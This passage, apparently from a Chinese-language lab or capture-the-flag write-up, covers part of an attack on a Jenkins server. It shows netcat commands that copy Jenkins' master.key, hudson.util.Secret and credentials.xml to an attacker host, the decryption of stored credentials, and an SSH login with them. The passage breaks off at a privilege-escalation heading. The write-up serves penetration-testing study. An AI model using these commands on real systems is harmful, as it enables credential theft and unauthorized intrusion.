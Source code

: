 ![截图](03235ec729ce203c38f0dcd6cae38f50.png)

对firefox开启代理：

```bash
proxychains firefox 
```

然后访问 http://172.16.250.30:8080/jenkins/

![截图](921260d4124ae6f40dc9241cc46a0cd7.png)

进入Jenkins应用程序内的凭证管理器内部：

![截图](62afaec75c21689268bc84020233de3c.png)

在这里看到db_backup用户密码已存储，因此我们可以直接利用其漏洞下载其密码凭证并破解：

```bash
# 在本机开启监听，并将监听内容写入master.key
nc -lvp 1234 > master.key
# 在jenkins机器上，将master.key内容发到攻击机上
nc 172.16.250.128 1234 < /home/jenkins/secrets/master.key
```

![截图](3e1b996df80d6a192315fc1adfe4adb7.png)

同理导入hudson.util.Secret以及credentials.xml：

```bash
nc -lvp 1234 > hudson.util.Secret
nc 172.16.250.128 1234 < /home/jenkins/secrets/hudson.util.Secret

nc -lvp 1234 > credentials.xml
nc 172.16.250.128 1234 < /home/jenkins/credentials.xml
```

最后，利用脚本破解：

```bash
./jenkins-credentials-decryptor \
       -m master.key \
       -s hudson.util.Secret \
       -c credentials.xml \
       -o text
```

![截图](e6498a3cceb8e4e885239f0bed2034aa.png)

拿到密码，我们尝试连接：

```bash
ssh db_backup@172.16.250.50 
```

![截图](7367e798400ebd0dba4b98b85d10d25c.png)

#### 6）利利用su提权
